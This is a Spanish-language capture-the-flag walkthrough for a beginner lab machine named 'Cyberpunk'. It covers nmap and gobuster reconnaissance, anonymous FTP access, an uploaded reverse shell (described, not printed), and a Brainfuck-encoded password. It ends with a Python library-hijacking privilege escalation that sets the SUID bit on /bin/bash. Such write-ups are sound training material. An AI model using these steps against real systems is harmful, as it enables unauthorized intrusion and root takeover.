```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Cyberpunk

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.78
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (722).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 192.168.1.78
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (723).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP**, el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80 -v 192.168.1.78
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (724).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página con una imagen de una chica hacker.

<figure><img src="../../.gitbook/assets/image (725).png" alt=""><figcaption></figcaption></figure>

Ahora buscaremos directorios con la herramienta **Gobuster** a través de:

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,htm,php,txt,xml,js -u http://192.168.1.78
```

<figure><img src="../../.gitbook/assets/image (728).png" alt=""><figcaption></figcaption></figure>

Encontramos un archivo interesante llamado `secret.txt`.

<figure><img src="../../.gitbook/assets/image (727).png" alt=""><figcaption></figcaption></figure>

Voy a indagar al servicio **FTP** a través del usuario **anonymous** ya que hemos visto que tenemos acceso.

<figure><img src="../../.gitbook/assets/image (729).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Al descargar estos archivos nos damos cuenta que es el mismo contenido que la página web por lo que subiremos una **revshell**. Nos ponemos en escucha, establecemos la conexión y revisamos que ya hemos establecido la conexión.

<figure><img src="../../.gitbook/assets/image (730).png" alt=""><figcaption></figcaption></figure>

Tras ponerme en escucha y realizar tratamiento de la TTY. Como se nos muestra aquí: [Tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/). Listamos el contenido de varios directorios y encontramos un archivo en el directorio `/opt`.

<figure><img src="../../.gitbook/assets/image (731).png" alt=""><figcaption></figcaption></figure>

Es un código **Brainfuck** así que vamos a desencriptar.&#x20;

<figure><img src="../../.gitbook/assets/image (732).png" alt=""><figcaption></figcaption></figure>

Hemos descubierto la contraseña del usuario **arasaka**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh arasaka@192.168.1.78
```

<figure><img src="../../.gitbook/assets/image (733).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (736).png" alt=""><figcaption></figcaption></figure>

Listamos permisos ocultos con `ls -la`.&#x20;

<figure><img src="../../.gitbook/assets/image (734).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (735).png" alt=""><figcaption></figcaption></figure>

Como observamos que el archivo utiliza la biblioteca `base64` de manera relativa, procederemos a crear un archivo llamado `base64.py` . Luego, le otorgaremos permisos de ejecución para que podamos aprovecharlo cuando se ejecute con privilegios de `sudo`.

```bash
import os;
os.system("chmod u+s /bin/bash")
```

Ejecutamos el script con permisos de **root**.

```bash
sudo -u root /usr/bin/python3.11 /home/arasaka/randombase64.py
```

Vemos los permisos y ejecutamos los siguientes comandos:

```bash
ls -la /bin/bash
bash -p
```

Ya somos **root**.

<figure><img src="../../.gitbook/assets/image (737).png" alt=""><figcaption></figcaption></figure>

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
